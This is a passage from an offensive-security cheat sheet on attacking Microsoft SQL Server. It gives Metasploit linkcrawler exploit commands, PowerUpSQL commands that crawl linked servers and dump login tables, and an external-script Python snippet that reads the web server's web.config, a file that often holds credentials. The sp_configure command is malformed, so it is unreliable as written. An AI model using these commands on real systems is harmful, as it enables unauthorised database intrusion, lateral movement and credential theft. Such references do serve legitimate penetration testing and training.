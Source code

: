 Crawl links with MSF:

```
msf > use exploit/windows/mssql/mssql_linkcrawler
msf exploit(windows/mssql/mssql_linkcrawler) > set RHOSTS 192.168.1.11
msf exploit(windows/mssql/mssql_linkcrawler) > set USERNAME sa
msf exploit(windows/mssql/mssql_linkcrawler) > set PASSWORD Passw0rd!
msf exploit(windows/mssql/mssql_linkcrawler) > set DEPLOY true
msf exploit(windows/mssql/mssql_linkcrawler) > set VERBOSE true
msf exploit(windows/mssql/mssql_linkcrawler) > run
```

Crawl links with PowerUpSQL:

```
PS > Get-SQLInstanceDomain | Get-SQLConnectionTest
PS > Get-SQLServerInfo -Instance "sqlsrv01.megacorp.local,1433"
PS > Get-SQLServerLinkCrawl -Instance "sqlsrv01.megacorp.local,1433"
PS > Get-SQLServerLinkCrawl -Instance "sqlsrv01.megacorp.local,1433" -Query "SELECT * FROM master..syslogins" | ft
PS > Get-SQLServerLinkCrawl -Instance "sqlsrv01.megacorp.local\SQLEXPRESS" -Username sa -Password "Passw0rd!" -Query "SELECT name FROM master..sysdatabases"
```




## External Scripts

* [https://docs.microsoft.com/en-us/sql/machine-learning/tutorials/quickstart-python-create-script?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/machine-learning/tutorials/quickstart-python-create-script?view=sql-server-ver15)
* [https://www.sqlshack.com/how-to-use-python-in-sql-server-2017-to-obtain-advanced-data-analytics/](https://www.sqlshack.com/how-to-use-python-in-sql-server-2017-to-obtain-advanced-data-analytics/)

Enable external scripts:

```
EXEC sp_configure 'external scripts enabled,1';
```

Run Python code:

```
EXEC sp_execute_external_script
@language=N'Python',
@script=N'
with open(''c:\\inetpub\\wwwroot\\web.config'', ''r'') as f:
    print(f.read())
'
```




## Tools


